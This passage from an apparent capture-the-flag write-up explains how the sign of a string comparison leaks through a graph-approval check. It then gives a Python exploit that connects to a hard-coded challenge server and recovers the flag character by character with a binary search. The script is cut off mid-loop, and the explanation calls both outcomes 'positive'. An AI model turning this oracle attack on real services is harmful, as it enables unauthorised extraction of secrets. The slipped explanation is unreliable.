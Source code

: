 Depending on the result of the `string.Compare` call:

- if the result is positive, the 4th byte is all zeros
 - no edges, we have a fully disconnected subgraph of size 6. Not approved.
- if the result is positive, the 4th byte is all ones
 - some edges exist,there is no fully disconnected or fully connected subgraph of size 6. Approved.

We can therefore find the value of the 4th byte and the sign of the comparison with the flag.

We have everything we need. 
We can now setup a binary search by adding a character at a time to our input and checking if the result of the compare is positive or negative.

The exploit:

```python
#!/usr/bin/env python3
from socket import socket
import time

host = '180.163.241.15'
port = 10658

def testflag(flag):
    sock = socket()
    sock.connect((host, port))
    # overwrite comm
    sock.send(b'3\n')
    sock.send(b'1\n')  # one line
    sock.send(flag.encode() + b'\n')
    res = b''
    while not (b'Correct' in res or b'Incorrect' in res):
        time.sleep(0.1)
        res += sock.recv(1024)
    print(res)
    if b'Correct' in res:
        return 0
    # leak sign bit
    sock.send(b'2\n')
    sock.send(b'6\n')  # 6 nodes
    sock.send(b'6\n')  # threshold = 6
    sock.send(b'0\n')  # no edges
    res = b''
    while not b'party' in res:
        time.sleep(0.1)
        res += sock.recv(1024)
    print(res)
    sock.close()
    if b'does not approve' in res:
        return 1  # flag is bigger
    elif b'approves' in res:
        return -1  # flag is smaller
    else:
        raise Exception('something wrong')

flag = ''
newchar = ''
for l in range(100):
    flag += newchar
    print(l)
    print(flag)
    minv = 0x20
    maxv = 0x7e
    while minv != maxv:
        newchar = chr(minv + (maxv - minv) // 2)
        newflag = flag + newchar
```